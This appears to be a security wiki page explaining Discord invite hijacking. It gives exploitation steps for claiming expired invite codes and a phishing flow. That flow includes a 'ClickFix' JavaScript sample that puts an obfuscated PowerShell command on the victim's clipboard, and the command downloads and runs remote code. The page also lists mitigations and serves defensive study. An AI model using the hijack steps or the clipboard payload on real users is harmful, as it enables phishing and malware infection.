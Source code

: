 # Discord Invite Hijacking


Discord’s invite system vulnerability allows threat actors to claim expired or deleted invite codes (temporary, permanent, or custom vanity) as new vanity links on any Level 3 boosted server. By normalizing all codes to lowercase, attackers can pre-register known invite codes and silently hijack traffic once the original link expires or the source server loses its boost.

## Invite Types and Hijack Risk

| Invite Type           | Hijackable? | Condition / Comments                                                                                       |
|-----------------------|-------------|------------------------------------------------------------------------------------------------------------|
| Temporary Invite Link | ✅          | After expiration, the code becomes available and can be re-registered as a vanity URL by a boosted server. |
| Permanent Invite Link | ⚠️          | If deleted and consisting only of lowercase letters and digits, the code may become available again.        |
| Custom Vanity Link    | ✅          | If the original server loses its Level 3 Boost, its vanity invite becomes available for new registration.    |

## Exploitation Steps

1. Reconnaissance
   - Monitor public sources (forums, social media, Telegram channels) for invite links matching the pattern `discord.gg/{code}` or `discord.com/invite/{code}`.
   - Collect invite codes of interest (temporary or vanity).
2. Pre-registration
   - Create or use an existing Discord server with Level 3 Boost privileges.
   - In **Server Settings → Vanity URL**, attempt to assign the target invite code. If accepted, the code is reserved by the malicious server.
3. Hijack Activation
   - For temporary invites, wait until the original invite expires (or manually delete it if you control the source).
   - For uppercase-containing codes, the lowercase variant can be claimed immediately, though redirection only activates after expiration.
4. Silent Redirection
   - Users visiting the old link are seamlessly sent to the attacker-controlled server once the hijack is active.

## Phishing Flow via Discord Server

1. Restrict server channels so only a **#verify** channel is visible.
2. Deploy a bot (e.g., **Safeguard#0786**) to prompt newcomers to verify via OAuth2.
3. Bot redirects users to a phishing site (e.g., `captchaguard.me`) under the guise of a CAPTCHA or verification step.
4. Implement the **ClickFix** UX trick:
   - Display a broken CAPTCHA message.
   - Guide users to open the **Win+R** dialog, paste a preloaded PowerShell command, and press Enter.

### ClickFix Clipboard Injection Example

```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa'; +
            `$u=($r[-1..-($r.Length)]-join ''); +
            `$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u)); +
            `iex (iwr -Uri $url)";
navigator.clipboard.writeText(cmd);
```
```
This approach avoids direct file downloads and leverages familiar UI elements to lower user suspicion.

## Mitigations

- Use permanent invite links containing at least one uppercase letter or non-alphanumeric character (never expire, non-reusable).
- Regularly rotate invite codes and revoke old links.
- Monitor Discord server boost status and vanity URL claims.
- Educate users to verify server authenticity and avoid executing clipboard-pasted commands.

## References

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – [[https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/|https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/]]
- Discord Custom Invite Link Documentation – [[https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link|https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link]]

